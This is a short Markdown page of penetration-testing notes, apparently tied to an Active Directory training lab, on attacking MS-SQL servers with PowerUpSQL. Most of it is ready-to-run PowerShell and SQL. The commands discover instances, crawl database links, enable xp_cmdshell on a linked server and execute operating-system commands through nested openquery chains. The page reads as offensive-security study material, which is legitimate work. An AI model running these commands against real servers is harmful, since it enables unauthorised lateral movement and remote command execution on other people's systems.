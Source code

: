 ```yaml
---
title: "MS-SQL Servers"
description: "Attacks against MS-SQL servers."
lead: "Attacks against MS-SQL servers, such as database links, using PowerUpSQL."
date: 2021-11-06T11:53:35+01:00
lastmod: 2021-11-06T11:53:35+01:00
draft: false
images: []
menu: 
  active_directory:
    parent: "trust_attacks"
weight: 30
toc: true
---
```


## General

- Generally deployed in a lot of Windows domains
- Good option for lateral movement as domain users can be mapped to database roles
- We can use [PowerUpSQL](https://github.com/NetSPI/PowerUpSQL) for exploitation
- [Cheatsheet](https://github.com/NetSPI/PowerUpSQL/wiki/PowerUpSQL-Cheat-Sheet)

## Exploitation

### Enumeration

```powershell
# Discovery (SPN Scanning)
Get-SQLInstanceDomain

# Check accessibility
Get-SQLConnectionTestThreaded
Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded -Verbose

# Gather information
Get-SQLInstanceDomain | Get-SQLServerInfo -Verbose
```

### Database Links

- Database link allows a SQL Server to access exteranl data sources like other SQL server and OLE DB data sources
- For links between SQL servers, we can exectue stored procedures
- Links work across forest trusts

#### Using PowerUpSQL

```powershell
# Look for links to remote server
Get-SQLServerLink -Instance dcorp-mssql -Verbose

# Enumerate database links
Get-SQLServerLinkCrawl -Instance dcorp-mssql -Verbose

# Execute commands
Get-SQLServerLinkCrawl -Instance dcorp-mssql -Query "exec master..xp_cmdshell 'whoami'"
```

#### Using SQL Queries

```sql
/* Enumerate database links */
select * from master..sysservers

/* Run queries on a linked database through OpenQuery() */
select * from openquery("dcorp-sql1", "select * from master..sysservers")

/* Chain queries to access nested links */
select * from openquery("dcorp-sql", 'select * from openquery("dcorp-mgmt", "select * from master..sysservers")')

/* Enable xp_cmdshell */
EXECUTE('sp_configure "xp_cmdshell",1;reconfigure;') AT "eu-sql"

/* Execute commands using nested link queries */
select * from openquery("dcorp-sql1", 'select * from openquery("dcorp-mgmt", "select * from openquery("eu-sql.eu.eurocorp.local", ""select @@version as version; exec master..xp_cmdshell "powershell whoami)"")")')
```

